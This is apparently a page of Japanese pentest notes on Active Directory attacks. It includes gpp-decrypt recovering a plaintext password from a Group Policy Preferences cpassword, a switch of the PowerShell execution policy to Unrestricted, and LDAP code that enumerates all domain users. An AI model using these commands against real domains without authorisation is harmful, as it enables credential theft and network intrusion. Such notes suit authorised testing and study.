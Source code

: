 ```powershell
#ドメイン+共有フォルダでも表示可能(sysvolは特殊かも)
ls \\dc01\\netlogon
```

sysvolディレクトリ配下にoldpolicyがあった場合、xmlファイルに記載されているパスワードクラックが可能

```bash
kali@kali:~$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
P@$$w0rd
```



### ユーザ一覧の取得

```powershell
powershell
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
Get-ExecutionPolicy -Scope CurrentUser
# ドメイン情報の表示
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
# LDAPプロバイダパスの作成
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$SearchString

# ドメイン内のすべてのユーザ列挙
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="samAccountType=805306368" #filterプロパティに0x30000000（10進数805306368）を指定
$Searcher.FindAll()
Path                                                                     
----                                                                     
LDAP://CN=Administrator,CN=Users,DC=xor,DC=com

# ユーザーのプロパティ情報含めて表示
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
    
    Write-Host "------------------------"
}
```
